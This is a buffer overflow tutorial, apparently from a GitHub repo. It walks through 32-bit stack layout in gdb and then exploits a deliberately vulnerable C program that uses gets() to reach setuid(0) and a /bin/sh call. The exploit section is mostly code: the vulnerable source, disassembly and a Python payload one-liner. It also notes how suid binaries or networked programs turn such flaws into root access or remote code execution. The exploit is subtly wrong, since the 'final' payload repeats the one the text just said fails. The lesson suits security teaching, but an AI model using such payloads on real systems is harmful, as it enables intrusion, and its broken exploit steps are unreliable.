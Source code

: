 # Buffer overflow

So, as I wrote before this vulnerability allows you to overwrite data.

## Structure within the stack

Suppose that we have a follow program:
```C
#include <stdlib.h>
/*
This program is simple as possible
*/

// Compile with:
// gcc stack-example.c -o stack-example -m32
// -m32 option is just for better explanation

int some_func1(int a, int b, int c, int d, int e, int f){
  int result = some_func2(e, f);
  return a + b + c + d + result;
}

int some_func2(int e, int f){
  int argv[10];
  short ind;
  size_t len = 10;
  for(ind = 0; ind < 10; ind++){
    argv[ind] = ind;
  }
  return e * f;
}

int main(int argc, char *argv[]){
  int a = 1, b = 2, c = 3, d=4, e=5, f=6;
  int result = some_func1(a, b, c, d, e, f);
  return 0;
}
```

When the program starts, the stack contains the argc and argv arguments to the main function (also envp).
When a new function is executed, its arguments are moved either to registers (for example, `rax`, `rbx`, `rcx`, `rdx`, `rdi`, `rsi` in Intel x86-64), or directly onto the stack (via `push 0x1` type of instructions).

Let's take a look at the assembly instructions within main:

```bash
gef➤  disas main
Dump of assembler code for function main:
   0x5655620c <+0>:	lea    ecx,[esp+0x4]
   0x56556210 <+4>:	and    esp,0xfffffff0
   0x56556213 <+7>:	push   DWORD PTR [ecx-0x4]
   0x56556216 <+10>:	push   ebp
   0x56556217 <+11>:	mov    ebp,esp
   0x56556219 <+13>:	push   ecx
   0x5655621a <+14>:	sub    esp,0x24
   0x5655621d <+17>:	call   0x5655627e <__x86.get_pc_thunk.ax>
   0x56556222 <+22>:	add    eax,0x2dde
   0x56556227 <+27>:	mov    DWORD PTR [ebp-0xc],0x1
   0x5655622e <+34>:	mov    DWORD PTR [ebp-0x10],0x2
   0x56556235 <+41>:	mov    DWORD PTR [ebp-0x14],0x3
   0x5655623c <+48>:	mov    DWORD PTR [ebp-0x18],0x4
   0x56556243 <+55>:	mov    DWORD PTR [ebp-0x1c],0x5
   0x5655624a <+62>:	mov    DWORD PTR [ebp-0x20],0x6
   0x56556251 <+69>:	sub    esp,0x8
   0x56556254 <+72>:	push   DWORD PTR [ebp-0x20]
   0x56556257 <+75>:	push   DWORD PTR [ebp-0x1c]
   0x5655625a <+78>:	push   DWORD PTR [ebp-0x18]
   0x5655625d <+81>:	push   DWORD PTR [ebp-0x14]
   0x56556260 <+84>:	push   DWORD PTR [ebp-0x10]
   0x56556263 <+87>:	push   DWORD PTR [ebp-0xc]
   0x56556266 <+90>:	call   0x56556189 <some_func1>
   0x5655626b <+95>:	add    esp,0x20
   0x5655626e <+98>:	mov    DWORD PTR [ebp-0x24],eax
   0x56556271 <+101>:	mov    eax,0x0
   0x56556276 <+106>:	mov    ecx,DWORD PTR [ebp-0x4]
   0x56556279 <+109>:	leave  
   0x5655627a <+110>:	lea    esp,[ecx-0x4]
   0x5655627d <+113>:	ret    
End of assembler dump.
gef➤  

```

You can see that here we are pushing 1, 2, 3, 4, 5, 6 onto the stack at ebp - some offset. `ebp` is just a base pointer that is placed at the bottom of the stack portion of the currently called function.
EBP also provides access to the required address on the stack where the values ​​of the variables are stored. So, when you declare the first variable in a function and set some value for it, for example, int value = 4, you can access it with `ebp - 0x4`. If you have a buffer of integers, for example, 10 in size, you can access it with `ebp - 0x28`. Etc.

Proof of concept:
```bash
gef>  b *some_func1 + 11
gef➤  x/50wx $ebp
0xffffd1d8:	0xffffd228	0x5655626b	0x00000001	0x00000002
0xffffd1e8:	0x00000003	0x00000004	0x00000005	0x00000006
0xffffd1f8:	0x00000000	0x56556222	0xf7fb13fc	0x56559000
0xffffd208:	0x00000006	0x00000005	0x00000004	0x00000003
0xffffd218:	0x00000002	0x00000001	0xf7fe4520	0xffffd240
0xffffd228:	0x00000000	0xf7df1b41	0xf7fb1000	0xf7fb1000
0xffffd238:	0x00000000	0xf7df1b41	0x00000002	0xffffd2d4
0xffffd248:	0xffffd2e0	0xffffd264	0x00000001	0x00000000
0xffffd258:	0xf7fb1000	0xffffffff	0xf7ffd000	0x00000000
0xffffd268:	0xf7fb1000	0xf7fb1000	0x00000000	0xc574ab7c
0xffffd278:	0x84e62d6c	0x00000000	0x00000000	0x00000000
0xffffd288:	0x00000002	0x56556050	0x00000000	0xf7fe9690
0xffffd298:	0xf7fe4520	0x56559000
```

At the address of `0xffffd1d8` - `0xffffd1e8` you can see our values 1, 2, 3, 4, 5, 6. But before them you can see the address `0x5655626b` which is just the address of the next assembly instruction after `some_func1` call. This is a return address, and the `ret` instruction will take it and place it in `eip` register which holds the address of the next instruction to execute.

## Exploitation

So, I wrote a simple program that has a part with a `system` Unix syscall to execute `/bin/sh`. You need to compile it without stack protection.

```C
#include <unistd.h>

//  gcc buffer-overflow.c -o buffer-overflow -fno-stack-protector

int main(int argc, char *argv[]){
  char vuln_buff[100];
  int access = 4321;
  // vulnerable
  gets(vuln_buff);
  if (access == 1234){
    setuid(0);
    system("/bin/sh");
  }
  return 0;
}
```

Also, it used the vulnerable function `gets`. But this is vulnerable because it doesn't check the input size. It may be also a programming mistake with `read`.
Okay, we know the size of buffer, buf if we wouldn't know, then you can see it in the gdb:

```bash
0x0000000000001183 <+26>:	lea    rax,[rbp-0x70]
0x0000000000001187 <+30>:	mov    rdi,rax
0x000000000000118a <+33>:	mov    eax,0x0
0x000000000000118f <+38>:	call   0x1070 <gets@plt>
```

Line `+26` shows you that for some reasons, buffer size in machine code is 112 bytes. So, you can exploit it:

```bash
gcc buf-overflow.c -o buffer-overflow -fno-stack-protector
(python -c 'print "A"*112 + "\xdd\xdd"'; cat) | ./buffer-overflow
```

But, you don't get a shell, cause you overwrote the access variable with `0xdddd`. You can with what hex address it compares in the gdb:

```bash
   0x0000000000001194 <+43>:	cmp    DWORD PTR [rbp-0x4],0x4d2
```

So, your final exploit:

```bash
(python -c 'print "A"*112 + "\xdd\xdd"'; cat) | ./buffer-overflow
```

And you will get a shell, but you will be you, not the other user or root. Yeah, in this kind of program, the vulnerability is useless for an attacker, but if it has a `suid` bit set(`chmod ug+s buffer-overflow` as another user), he can get a root or another user privilege. But, if a program with some network interactions has this vulnerability, then the attacker can get Remote Code Execution or RCE, even if the program doesn't have a suid on the root or other user. Also, the main reason for RCE here is the condition which gives a shell, but even so, this vulnerability opens a thread to further exploitation.
